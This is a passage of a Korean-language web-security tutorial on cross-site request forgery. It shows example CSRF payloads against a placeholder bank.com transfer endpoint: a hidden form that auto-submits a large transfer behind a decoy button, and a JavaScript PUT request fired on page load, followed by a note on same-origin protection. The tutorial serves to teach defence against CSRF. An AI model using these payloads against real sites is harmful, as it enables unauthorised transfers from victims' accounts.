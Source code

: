 ```http
POST http://bank.com/transfer.do HTTP/1.1

acct=BOB&amount=100
```

이러한 요청은 표준 A 또는 IMG 태그를 사용하여 전달할 수 없지만 FORM 태그를 사용하여 전달할 수 있습니다.

```html
<form action="http://bank.com/transfer.do" method="POST">

<input type="hidden" name="acct" value="MARIA"/>
<input type="hidden" name="amount" value="100000"/>
<input type="submit" value="View my pictures"/>

</form>
```

이 양식을 사용하려면 제출 버튼을 클릭해야하지만 JavaScript를 사용하여 자동으로 실행할 수도 있습니다.

```html
<body onload="document.forms[0].submit()">

<form></form>
```

### 다른 HTTP 메소드 시나리오

최신 웹 애플리케이션 API는 PUT 또는 DELETE와 같은 다른 HTTP 메소드를 자주 사용합니다. 취약한 은행이 JSON 블록을 인수로 취하는 PUT을 사용한다고 가정 해 봅시다.

```http
PUT http://bank.com/transfer.do HTTP/1.1

{ "acct":"BOB", "amount":100 }
```

이러한 요청은 익스플로잇 페이지에 임베드 된 JavaScript로 실행될 수 있습니다.

```html
<script>
function put() {
    var x = new XMLHttpRequest();
    x.open("PUT","http://bank.com/transfer.do",true);
    x.setRequestHeader("Content-Type", "application/json");
    x.send(JSON.stringify({"acct":"BOB", "amount":100})); 
}
</script>

<body onload="put()">
```

다행스럽게도이 요청은 동일한 출처 정책 제한으로 인해 최신 웹 브라우저에서 실행 되지 않습니다. 이 제한은 대상 웹 사이트가 다음 헤더와 함께 CORS 를 사용하여 공격자 (또는 모든 사람)의 출처에서 교차 출처 요청을 명시 적으로 열지 않는 한 기본적으로 사용됩니다.

### CSRF 보안 (JWT 토큰 사용시)
